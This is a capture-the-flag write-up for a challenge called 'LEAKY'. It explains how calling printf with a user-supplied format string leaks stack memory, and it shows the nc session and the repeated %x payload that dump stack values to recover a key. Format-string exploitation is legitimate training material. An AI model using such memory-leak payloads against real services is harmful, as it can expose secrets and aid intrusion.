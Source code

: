 ## LEAKY [60]

**Tags**: format string, information leak

**Description**: Leak the key from memory. Source is available at [leaky.c](leaky.c), and the binary's running on `shell.cyberstakesonline.com:14068`.

## Solution
If you call `printf()` with format specifiers (`%x`, `%s`, etc.) in the format string but no corresponding arguments, it will read whatever values happen to be next sequentially on the stack. In this binary, we call `printf()` with an 80-byte format string read from `stdin` but with no other arguments. This gives us plenty of space to add many `%x` format specifiers to print out several values on the stack and hopefully reach the unknown key.

We know that the key is located between `0x11151057` and `0x51757175`:
```C
  unsigned int filler2 = 0x70011115;
  unsigned int filler3 = 0x11151057;
  unsigned int key = ???;
  unsigned int filler4 = 0x51757175;
  unsigned int filler5 = 0x70117175;
```

Just for good measure, we will print out fifteen stack values:
```
ameise@STAHLKERN:~/CS2015/pwn/060_LEAKY$ nc shell.cyberstakesonline.com 14068
%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
804a080 50 f7fc8000 f7fc4000 10757011 10111115 70011115 11151057 50117011 51757175 70117175 70111075 10115117 51101157 2d
```

The key is `0x50117011`.